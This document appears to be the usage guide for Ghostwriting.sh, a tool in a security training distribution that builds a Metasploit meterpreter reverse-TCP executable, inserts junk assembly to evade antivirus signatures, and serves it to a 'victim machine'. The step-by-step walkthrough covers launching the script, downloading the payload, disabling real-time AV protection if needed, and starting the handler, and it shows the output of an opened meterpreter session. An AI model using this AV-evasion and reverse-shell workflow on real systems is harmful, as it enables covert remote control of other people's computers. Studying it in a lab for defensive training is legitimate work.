 
Ghostwriting.sh
===============

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location, 
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_Ghost.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&canary=">
 <p>Your browser does not support html5 video.</p>
</video>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a 
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can 
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine on port 8000.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.PNG)

Here is the moment of truth, depending on your AV this specific file may or may not be detected 
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's 
real-time protection.  This script is a demonstration tool more than anything.  It can however be 
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and 
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33
    
        meterpreter \>

There you go, happy pwning!


